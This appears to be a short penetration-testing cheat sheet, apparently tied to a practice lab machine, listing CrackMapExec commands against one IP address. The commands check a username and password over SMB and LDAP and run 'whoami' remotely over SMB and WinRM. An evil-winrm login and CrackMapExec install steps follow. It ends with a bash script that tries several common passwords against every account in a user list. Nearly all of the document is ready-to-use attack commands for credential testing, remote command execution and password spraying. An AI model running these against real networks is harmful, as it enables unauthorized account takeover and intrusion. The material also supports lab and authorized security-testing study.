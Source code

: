 
**user & password verification**

### SMB

```sh
crackmapexec smb 10.10.10.161 -u 'username' -p 'password'
```

### LDAP

```sh
crackmapexec ldap 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

**command execution**

### SMB
```sh
crackmapexec smb 10.10.10.161 -u svc-alfresco -p 's3rvice' -x "whoami"
```

### winrm 

```sh
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p 's3rvice' -x "whoami"
```

**evil winrm**

```sh
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```



# Install CME 6

```bash
https://github.com/byt3bl33d3r/CrackMapExec.git
```

```bash
git clone https://github.com/byt3bl33d3r/CrackMapExec.git
```

```bash
pip3 install .
```
```bash
crackmapexec

# vnc, ldap, ftp
```


## script 

```bash
#!/bin/bash

USERLIST="userlist.txt"  # File containing usernames
PASSWORDS=("Changeme08" "Changeme09" "Changeme07" "Password@123!")  # List of passwords
TARGET="IP"  # Target IP address
OUTPUT_FILE="cme_output.txt"  # File to save results

while read -r user; do
    echo "Testing passwords for user: $user" | tee -a "$OUTPUT_FILE"
    for password in "${PASSWORDS[@]}"; do
        echo "Trying $user:$password" | tee -a "$OUTPUT_FILE"
        crackmapexec smb $TARGET -u "$user" -p "$password" | tee -a "$OUTPUT_FILE"
    done
done < "$USERLIST"
```




